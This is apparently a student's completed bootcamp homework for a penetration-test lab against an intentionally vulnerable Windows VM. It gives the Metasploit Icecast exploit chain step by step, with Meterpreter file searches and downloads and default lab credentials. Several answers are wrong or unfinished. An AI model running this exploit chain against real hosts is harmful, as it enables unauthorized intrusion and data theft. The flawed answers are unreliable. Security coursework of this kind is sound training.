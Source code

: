 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer:  nmap -SV  192.168.0.-


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer:  searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole


4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search Icecast


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:  use exploit/windows/http/icecast_header


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set rhost 192.168.0.20

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: exploit

   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: search -f secretfile.txt

 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `*recipe*.txt` on the target:

      > Answer:  search -f recipe.txt


    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer:   cd IEUser
                  cd Documents
               download  *recipe*.txt


8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ??


B. Open a Meterpreter shell and gather system information for the target.

  > Answer:  sysinfo

C. Run the command that displays the target's computer system information:

   > Answer: sysinfo



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
